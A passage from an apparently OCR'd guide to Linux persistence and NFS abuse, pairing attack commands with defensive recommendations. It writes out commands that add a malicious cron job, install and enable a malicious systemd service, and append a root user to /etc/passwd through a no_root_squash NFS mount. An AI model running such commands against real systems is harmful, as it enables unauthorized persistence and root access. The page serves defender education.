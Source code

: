     Command Examples:

        Listing All Cron Jobs:

        bash

crontab -l
cat /etc/crontab

Adding a Malicious Cron Job:

bash

(crontab -l; echo "*/5 * * * * /tmp/malicious.sh") | crontab -

Creating a Systemd Service for Malicious Purposes:

bash

        echo -e "[Unit]\nDescription=Malicious Service\n\n[Service]\nExecStart=/path/to/malicious_script.sh\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/malicious.service
        systemctl enable malicious.service

    Recommendations:
        Monitor and audit cron job configurations and systemd service files.
        Use file integrity monitoring (FIM) to detect unauthorized changes to cron or systemd files.
        Restrict write access to cron directories and systemd configuration files.

D. Abusing NFS (Network File System) Shares

Description: NFS is commonly used for sharing directories between systems on a network. Misconfigured NFS shares can be exploited for unauthorized access and lateral movement.

    Common Tools and Techniques:
        Mounting Open NFS Shares: Attackers can mount NFS shares without authentication if they are misconfigured.
        Abusing no_root_squash Option: If NFS is configured with the no_root_squash option, remote users may gain root access to the share.

    Command Examples:

        Finding and Mounting Open NFS Shares:

        bash

showmount -e <target_IP>
mount -t nfs <target_IP>:/share /mnt/nfs_share

Exploiting no_root_squash for Root Access:

bash

        mount -o rw <target_IP>:/ /mnt/nfs
        echo "malicious_user:x:0:0:root:/root:/bin/bash" >> /mnt/nfs/etc/passwd

    Recommendations:
        Disable no_root_squash in NFS configurations.
        Limit NFS share access to specific trusted IP addresses.
        Implement network segmentation to isolate NFS servers from sensitive parts of the network.
        Regularly audit NFS configurations and shared directory permissions.
